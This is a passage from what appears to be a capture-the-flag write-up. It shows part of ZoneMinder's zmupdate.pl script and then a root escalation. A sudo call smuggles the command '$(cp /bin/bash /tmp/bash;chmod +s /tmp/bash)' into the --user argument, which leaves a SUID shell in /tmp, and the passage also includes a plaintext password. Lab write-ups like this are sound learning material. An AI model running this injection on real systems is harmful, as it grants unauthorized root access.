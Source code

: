```perl
      if ( $status || logDebugging() ) {
        chomp( $output );
        print( "Output: $output\n" );
      }
      if ( $status ) {
        die( "Command '$command' exited with status: $status\n" );
      } else {
        print( "Database successfully backed up to $backup, proceeding to upgrade.\n" );
      }
    } elsif ( $response !~ /^[nN]$/ ) {
      die( "Unexpected response '$response'" );
    }
  }
[...]
```
in order to get root we can just do the following:
```bash
sudo /usr/bin/zmupdate.pl --version=1 --user='$(cp /bin/bash /tmp/bash;chmod +s /tmp/bash)' --pass=ZoneMinderPassword2023
```
We created a bash copy on the /tmp/ folder with the suid bit set, and WE ARE ROOT!
    
![root proof](./pic/root_proof.png)
    




